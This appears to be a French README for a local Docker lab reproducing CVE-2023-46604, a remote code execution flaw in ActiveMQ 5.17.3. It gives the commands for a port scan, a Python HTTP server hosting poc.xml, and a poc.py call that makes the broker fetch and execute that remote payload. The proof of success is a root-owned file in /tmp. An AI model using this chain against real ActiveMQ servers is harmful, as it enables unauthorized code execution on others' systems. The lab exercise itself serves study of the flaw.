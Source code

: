 CVE 2023-46604

<img width="993" alt="Capture d’écran 2024-10-31 à 19 30 17" src="https://github.com/user-attachments/assets/59de428a-2fdd-487d-9d5d-a7bb4c1ca74b">

Pour commencer, lancez ActiveMQ en arrière-plan dans le dossier activemq_2023 en utilisant:

docker compose up -d

![Capture d’écran 2024-10-28 à 12 38 08](https://github.com/user-attachments/assets/d8f89a89-5db4-443e-ac48-01ada7163acd)

Accédez ensuite à l'interface ActiveMQ dans un navigateur à l'adresse :

http://localhost:8161/admin/

Vous verrez la version d'ActiveMQ, ici (5.17.3) :

![Capture d’écran 2024-10-28 à 12 39 45](https://github.com/user-attachments/assets/1a11852e-ada9-4ece-b2b3-b92e99d1fdbc)

On peut aussi voir la version de activemq dans le fichier docker-compose.yml:

![Capture d’écran 2024-10-28 à 12 40 48](https://github.com/user-attachments/assets/3f82642d-676b-49d2-9f2f-c72d4246717f)

Pour scanner le réseau afin d'identifier les services actifs et leurs versions avec la commande : nmap -p- 192.168.1.145

![Capture d’écran 2024-10-28 à 12 42 12](https://github.com/user-attachments/assets/2377b011-43e0-498a-8ba0-d0a664806038)



Ensuite, pour exploiter ce CVE, ouvrez un port avec la commande suivante :
python3 -m http.server -b 192.168.1.145 6666

![Capture d’écran 2024-10-28 à 12 46 15](https://github.com/user-attachments/assets/89c32c5d-d091-4c45-bbf2-ee755b80f622)

Utilisez ensuite les fichiers poc.py et poc.xml pour envoyer la commande suivante :
python3 poc.py localhost 61616 http://192.168.1.145:6666/poc.xml

Vous pouvez vérifier que la commande a bien été reçue sur le port :
![Capture d’écran 2024-10-28 à 12 49 13](https://github.com/user-attachments/assets/9a0caee3-f648-454d-81c5-5d301b22ccf4)

Ensuite, en écrivant: docker ps -a on peut identifier l'id du container ouvert et qui correspond a activemq.
Grace a cette id on effectue cette commande pour accédez au conteneur:
docker exec -it 55cfcd6ae598 /bin/bash

Enfin, vérifiez dans le dossier /tmp pour voir si l'injection a réussi :
ls -l /tmp/

On  devrait avoir un fichier crée comme celui ci:
-rw-r--r-- 1 root root    0 Oct 28 11:48 activeMQ-RCE-success

Nous avons réussi à créer le fichier activeMQ-RCE-success, ce qui constitue une preuve de l'exécution réussie de l'injection de code à distance à travers une requête malveillante.

![Capture d’écran 2024-10-28 à 12 51 17](https://github.com/user-attachments/assets/569e6db0-2661-4830-94e3-3a686ab5b218)

Cet exploit montre comment CVE-2023-46604 permet une exécution de code à distance via l'injection d'une payload dans ActiveMQ, ouvrant ainsi des voies d'accès non autorisées au système.

